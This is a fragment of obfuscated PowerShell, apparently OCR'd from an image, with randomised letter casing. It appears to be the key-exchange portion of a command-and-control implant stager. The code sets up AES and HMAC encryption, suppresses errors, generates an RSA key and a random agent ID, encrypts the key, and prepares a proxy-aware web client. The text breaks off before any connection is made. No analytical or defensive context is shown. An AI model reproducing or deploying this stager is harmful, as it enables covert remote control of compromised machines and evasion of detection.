 ```powershell
    }
    
    FuncTIOn DecrYpt-BYtEs 
    {
        paRAm ($Key, $In)iF($IN.LengtH -Gt 32) 
        {
            $HMAC = NeW-OBJeCt SystEM.SecUritY.CryPtoGRaphy.HMACSHA256;
            $e=[SYSTEM.TEXT.ENcODInG]::ASCII;$Mac = $IN[-10..-1];
            $In = $In[0..($In.lenGtH - 11)];
            $hMAc.KEY = $E.GEtBYtEs($KEY);
            $EXPectED = $hmAc.CoMPUTeHASH($In)[0..9];
            If (@(COmparE-ObjeCT $MaC $Expected -SYNc 0).LEnGtH -NE 0) 
            {
                rETUrn;
            }
            $IV = $IN[0..15];
            tRy 
            {
                $AES=NEw-OBjECT SyStEm.SecURity.CRYPtogrAPHY.AESCRyPtoSErvIcEPROviDeR;
            }
            cATCh 
            {
                $AES=NEw-OBjEcT SYSTEM.SEcuRIty.CRypTOgRaPhy.RIjnDaelMaNaGeD;
            }
            $AES.Mode = "CBC";$AES.KeY = $E.GetBYtes($KEY);
            $AES.IV = $IV;
            ($AES.CREATEDECrYptOr()).TRansFORMFInAlBlOcK(($In[16..$In.LenGth]), 0, $IN.LEnGTH-16)
        }
    }

    $Null = [Reflection.Assembly]::LoadWithPartialName("System.Security");
    $Null = [Reflection.Assembly]::LoadWithPartialName("System.Core");
    $ErrorActionPreference = "SilentlyContinue";
    $e=[SYSTEm.Text.EnCOdInG]::UTF8;
    $customHeaders = "";
    $SKB=$E.GETBYtES($SK);
    TrY 
    {
        $AES=NeW-OBJEct SYStem.SEcuRITY.CrYPtOGrAPhY.AESCryPtOSeRviCEPROVideR;
    }
    CAtcH 
    {
        $AES=NEW-ObJecT SySTEm.SeCurITy.CrYPToGrApHY.RIJNDaeLMANAGeD;
    }
    $IV = [ByTe] 0..255 | GEt-RanDOm -cOunT 16;
    $AES.Mode="CBC";
    $AES.Key=$SKB;
    $AES.IV = $IV;
    $HmaC = NEw-OBJECT SyStEm.SECUritY.CRYpTogrAPHY.HMACSHA256;
    $HmAc.Key = $SKB;
    $CsP = NEW-ObJECT SySTeM.SeCURITY.CrYptoGRapHy.CSPParameTerS;
    $CSP.FLAgs = $csP.FLaGs -BoR [SYsTem.SeCuRITy.CrYptOGraPhy.CSpPRoVIdERFLAGS]::USeMaChINeKEySTore;
    $RS = New-ObjeCT SYSteM.SeCuRITy.CRyPTOgRApHy.RSACryPtOSErvICePrOVIdER -ArGumEnTLIst 2048,$Csp;
    $rk=$Rs.ToXmLSTRiNG($FaLSe);
    $ID=-join("ABCDEFGHKLMNPRSTUVWXYZ123456789".ToCharArray()|Get-Random -Count 8);
    $iB=$E.GEtBytes($rK);
    $eB=$IV+$AES.CReATeEncryPTor().TranSfOrMFINaLBlocK($ib,0,$IB.LEnGth);
    $Eb=$Eb+$hMAc.COmpUteHaSh($Eb)[0..9];
    IF(-noT $WC) 
    {
        $wc=NEW-OBjecT SySteM.Net.WeBClient;$Wc.PrOxY = [SyStem.NEt.WeBREQuest]::GETSYStemWEBPrOXy();
```